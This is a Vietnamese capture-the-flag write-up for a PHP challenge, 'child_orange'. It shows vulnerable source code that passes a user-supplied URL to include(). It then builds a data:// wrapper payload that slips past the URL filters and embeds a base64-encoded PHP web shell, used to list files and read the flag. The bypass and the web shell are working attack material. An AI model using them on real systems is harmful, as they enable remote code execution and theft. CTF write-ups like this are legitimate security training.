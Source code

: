 # [CTF] child_orange
## Solution
Source code:
```
<?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?>
```
Review qua source code nào:
param ``url`` ở đây được đối xử như 1 URL thật và nó phải pass qua 1 đống ``filter_var``, ``preg_match`` , ``parse_url`` , đến đây mình dự đoán nó có thể là RFI rồi. 

Theo hint của anh Nhiên thì lọ mọ đi search google thoy. sau khi search 1 hồi thì mình tìm thấy, 1 số report cũng như bài thuyết trình của ``orange tsai`` :-=)) Trong BlackHat nói về SSRF dẫn đến exploiting ``parse_url``. Nó có 1 số thủ thuật khá hay để abusing cái parse_url như là thêm @ để làm cái parse_url nhầm lẫn giữa ``host`` và ``user`` hoặc là CSRF ( ``\r\n``),.. 

![img](./img/Screenshot%20from%202022-03-04%2022-55-29.png)

Reference:
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- https://www.youtube.com/watch?v=voTHFdL9S2k&t=222s

Đến đây mình đã đinh ninh bài này nó là SSRF rồi RFI rùi nhưng mà khoan, các thủ thuật trên đều phải trigger vào giữa cái url, cái này nó không thỏa mãn được điều kiện ``if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url))``.. soo how?

Thực ra còn 1 cách khác không liên quan đến cách trên đó chính là dùng ``php wrapper``, cụ thể mình dùng ``data://`` 
Reference: https://www.php.net/manual/en/wrappers.data.php . 

Mình đã test thử với filter ``if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");`` và bằng cách thần kì nào đó nó coi wrapper là 1 validate url =)).

![img](./img/Screenshot%20from%202022-03-04%2023-05-19.png)

Cho nó vào parse_url() để var_dump nó ra xem như thế nào: 

![img](./img/Screenshot%20from%202022-03-04%2023-10-40.png)

hmm thế này là không thoả mãn đuợc ``if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");``. Thử thêm text vào truớc scheme ``http`` để trigger xem sao. 

payload: 

``url="data://sometext/http:/nhienit.kma:2010//plain,test";``

![img](./img/Screenshot%20from%202022-03-04%2023-14-26.png)

Bingo, bằng cách này ta có thể abuse host và port của cái parse_url, payload của mình sẽ là:

``url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain,test;``

![img](./img/Screenshot%20from%202022-03-04%2023-18-19.png)

Đây là tiền đề để có thể thực hiện rce rồi, mình có thể ném script php lên (php wrapper sẽ execute code của mình) , cụ thể trong bài này ta phỉa encode script php theo dạng base64 vì ``php tag`` bị dính filter. script php: ``PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=`` (aka ``<?php system($_GET['cmd']);?>``)

payload: 
``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls -lsa``

![img](./img/Screenshot%20from%202022-03-04%2023-26-08.png)

nice, final payload:

``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=cat ../../../flag``

flag: KCSC{flag_for_testing}

